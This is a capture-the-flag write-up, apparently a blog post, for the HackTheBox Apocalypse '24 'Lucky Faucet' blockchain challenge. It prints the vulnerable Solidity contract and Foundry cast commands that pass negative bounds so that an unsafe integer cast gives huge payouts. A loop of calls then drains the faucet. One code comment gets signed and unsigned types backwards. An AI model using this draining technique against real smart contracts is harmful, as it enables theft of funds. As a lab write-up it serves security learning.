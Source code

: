 ```yaml
---
layout: post
title: "blockchain luckyfaucet"
date: 2024-03-14 17:18:49 -0700
categories: ctfs
description: Utilize the Foundry's cast function to interact with the contract via the provided RPC address and private key. Exploit the contract's integer declarations to underflow the value and receive Ethereum. Loop through the cast function to drain the available pool before submitting the flag.
parent: HackTheBox - Apocalypse '24
grand_parent: CTF Events
event: "hackthebox-apocalypse"
tags:
- "blockchain"
- "smart contract"
- "Ethereum"
- "integer manipulation"
- "Foundry"
---
```


## Lucky Faucet - Blockchain Challenge
The "Lucky Faucet" challenge involves exploiting integer declarations in the contract to receive Ethereum. The contract features three functions: a Constructor to set upper and lower bounds, a function to update bounds, and a function to send random Ethereum within the specified bounds.

### Exploiting Integer Declarations:
Using the Foundry's cast function, interact with the contract via the provided RPC address and private key. Abuse the integer declarations to underflow the value by passing negative values, circumventing the upper and lower bounds validation.

It's always worth trying random values when there's this much casting/mix-matching of types.
```c
pragma solidity 0.7.6;

contract LuckyFaucet {
    int64 public upperBound;
    int64 public lowerBound;

    constructor() payable {
        // start with 50M-100M wei Range until player changes it
        upperBound = 100_000_000;
        lowerBound =  50_000_000;
    }

    function setBounds(int64 _newLowerBound, int64 _newUpperBound) public { // <--- int64 only goes positive, uint goes negative
        require(_newUpperBound <= 100_000_000, "100M wei is the max upperBound sry");
        require(_newLowerBound <=  50_000_000,  "50M wei is the max lowerBound sry");
        require(_newLowerBound <= _newUpperBound);
        // why? because if you don't need this much, pls lower the upper bound :) <-- hints from challenge>
        // we don't have infinite money glitch.<-- hints from challenge>
        upperBound = _newUpperBound;
        lowerBound = _newLowerBound;
    }

    function sendRandomETH() public returns (bool, uint64) {
        int256 randomInt = int256(blockhash(block.number - 1)); // "but it's not actually random 邏"<-- hints from challenge>
        // we can safely cast to uint64 since we'll never <-- hints from challenge>
        // have to worry about sending more than 2**64 - 1 wei <-- hints from challenge>
        uint64 amountToSend = uint64(randomInt % (upperBound - lowerBound + 1) + lowerBound); 
        bool sent = msg.sender.send(amountToSend);
        return (sent, amountToSend);
    }
}
```

### Achieving the Goal:
The goal is to obtain at least 10 Ethereum. By looping through the cast function to send random Ethereum using the earlier contract, drain the available pool before submitting the flag to complete the challenge.

```sh
cast send --rpc-url "http://94.237.55.212:47096/" --private-key "<Private Kye generated from nc endpoint>" "<target contract generated by nc endpoint>" "setBounds(int64,int64)" -- -1 -1 #<-- First underflow to set the value to max(int64) 
for i in {1..100}; do cast send --rpc-url "http://94.237.55.212:47096/" --private-key "<Private Key generated from nc endpoint>" "<target contract generated by nc endpoint>" "sendRandomETH()"; done #<-- send ~8bil wei per call(about 8 eth)
```

Verifying the currency transfer:
```sh
watch cast balance --rpc-url http://94.237.55.212:47096 <either target or your address> -e #<-- -e outputs in eth instead of wei
```

### Conclusion:
The "Lucky Faucet" challenge highlights the importance of understanding smart contract functionalities and exploiting vulnerabilities within contract logic. By manipulating integer declarations, participants can achieve their objectives and demonstrate their proficiency in blockchain contract interaction.
